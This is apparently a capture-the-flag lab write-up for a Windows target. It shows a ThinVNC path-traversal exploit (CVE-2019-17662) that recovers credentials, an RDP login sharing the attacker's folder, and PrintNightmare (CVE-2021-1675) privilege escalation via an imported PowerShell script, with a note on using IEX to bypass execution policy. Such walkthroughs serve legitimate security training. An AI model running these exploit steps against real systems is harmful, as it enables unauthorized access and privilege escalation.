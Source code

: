 Thanks MuirlandOracle for CVE-2019-17662.py

I copied that as `thinvnc_exploit.py`

```

└──╼ $python thinvnc_exploit.py 10.10.246.176 8080

---

|\_ _| |\_\_ (_)\_ \_\ \ / / \ | |/ **_|
| | | '_ \| | '_ \ \ / /| \| | |
| | | | | | | | | \ V / | |\ | |_**
|_| |_| |_|_|_| |_|\_/ |\_| \_|\_\_\_\_|

@MuirlandOracle

[+] Credentials Found!
Username: Atlas
Password: H0ldUpTheHe@vens
```

ok this room is hand-holding but I appreciate it

simply put this script does a path traversal on host/port to read the `thinvnc.ini` file (by default)

someting more like `http://host:port/abc/../../ThinVNC.ini`

then reads it and search for Credentials...

`xfreerdp /v:10.10.246.176 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp`

The last part of this command share a folder of target with or own /tmp folder

Thats pretty cool huh?

## privilages escalation

### printnightmare (or cve-2021-1675)

when you hae access to powershell and spool service (printer) is running

think of printnightmare

we clone a powershell implementation of that and copy in our /tmp folder

From atlas machine we open powershell then import the script

`. \\tsclient\share\CVE-2021-1675-main\CVE-2021-1675.ps1`

sometimes you need to download it in powershell via `IEX` command to bypass security policy but tis time we imported it right

Then we start stuff

`Invoke-Nightmare`
